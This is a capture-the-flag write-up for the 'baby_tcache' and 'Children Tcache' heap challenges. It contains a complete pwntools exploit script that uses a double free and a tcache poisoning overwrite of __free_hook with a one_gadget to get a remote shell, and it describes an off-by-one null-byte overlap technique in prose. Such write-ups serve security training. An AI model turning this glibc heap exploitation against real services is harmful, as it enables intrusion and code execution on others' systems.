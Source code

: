 Malloc 0x100, there are two heap with same address.
Double free the same address and modify the fd to `__free_hook`.
Modify `__free_hook` value to `one_gadget` and get shell.

```python=
from pwn import *

#r = process(["./baby_tcache"])
r = remote("52.68.236.186", 56746)
def add(size,data):
        r.sendlineafter("choice:","1")
        r.sendlineafter(":",str(size))
        r.sendafter(":",data)

def remove(idx):
        r.sendlineafter("choice:","2")
        r.sendlineafter(":",str(idx))

add(0x500,"a") #0
add(0x20,"a")  #1
add(0x20,"a")  #2
add(0x4f0,"a")  #3
add(0xf0,"a")  #4
remove(2)
add(0x28,"a"*0x20+p64(0x570)) #2
remove(0)
remove(3)
remove(1)
add(0x500,"a") #0
add(0x100,p16(0x4760)) #1
add(0x20,"a") #3
add(0x20,p64(0x800)+"\x00"*0x9) #5

data = r.recvuntil("$")
libc = u64(data[8:16])-0x3ed8b0
print hex(libc)
remove(3)
remove(1)
add(0x100,p64(libc+0x3ed8e8))
add(0x100,p64(0x1234))
add(0x100,p64(libc+0x4f322))
remove(0)
r.interactive()

```

### Children Tcache
strcpy will cause off-one-byte null byte.
Beacause of the null terminating, we can't set pre_size and inuse bit at same time.
So we first set inuse bit of the next chunck.
Repeat free and malloc to fix pre_size to the correct value.
Free next chunck and get a overlapping unsorted bin.
Malloc a proper size to let unsorted bin fd overwrite to one heap content.
Call `Show heap` to leak libc address.
